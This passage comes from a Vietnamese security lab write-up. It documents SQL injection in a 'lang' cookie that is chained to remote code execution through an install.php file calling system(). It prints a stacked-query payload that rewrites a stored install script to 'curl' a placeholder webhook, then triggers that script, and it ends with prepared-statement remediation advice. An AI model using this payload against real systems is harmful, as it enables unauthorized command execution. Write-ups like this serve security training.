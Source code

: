 ![image](https://hackmd.io/_uploads/BJMDmcoxll.png)

Sau đó mình tiếp tục xác định tên database hiện web đang dùng.

![image](https://hackmd.io/_uploads/rkEVO5oeex.png)

Từ đây thì attacker đã có thể thực hiện dump database thành công. 

### Recommendations 
Để khắc phục lỗ hổng SQLi này thì nên có các biện pháp chặn chặt chẽ từ câu query như dùng ```Prepare Statements``` hoặc trước khi truyền data vào tham số `lang` thì nên validate hợp lí.

### References 
- BurpSuite 

## 2. CBJS-02: SQL Injection at `lang` in cookie lead to RCE via Privilege Escalation through `install.php` file [<span style="color:#E74C3C">Critical</span>]

### Description and Impact 

Khi kiểm tra toàn bộ source code của ứng dụng thì có file `install.php` lại có 1 `sink` là `system()` nguy hiểm và attacker có thể liên kết hình thành một exploit chain từ SQLi dẫn đến RCE thông qua SQLi này.

### Root Cause Analysis

![image](https://hackmd.io/_uploads/rJeXUcslex.png)
<p style="text-align:center;"><em>File install.php</em></p>

Ở dòng 9-11, câu query được truy vấn để lấy cột `value` từ table `configs` có dòng `name` là `install_script`. Sau đó được gán vào biến `install_script` với đúng giá trị được lấy ra từ table `configs`.

Và cuối cùng là được sink `system()` thực hiện. 

Từ đây thì attacker có thể lợi dụng lỗi SQLi để có thể `UPDATE` lại giá trị của cột `value` thành 1 giá trị `shell` để có thể thực RCE.

### Step to reproduce 
Mình truyền câu query để `UPDATE` lại giá trị cột `value` thành URL `webhook` có chứa `payload` là `curl <url_webhook>`

![image](https://hackmd.io/_uploads/Bynu9cille.png)
Webhook ban đầu không có request nào.

Sau đó mình chèn payload sau: 
> '; UPDATE configs SET value='curl <your_url_webhook>' WHERE name='install_script'---- -

![image](https://hackmd.io/_uploads/HJm2a5jelg.png)

Sau khi chạy xong mình truy cập vào endpoint `/install.php`
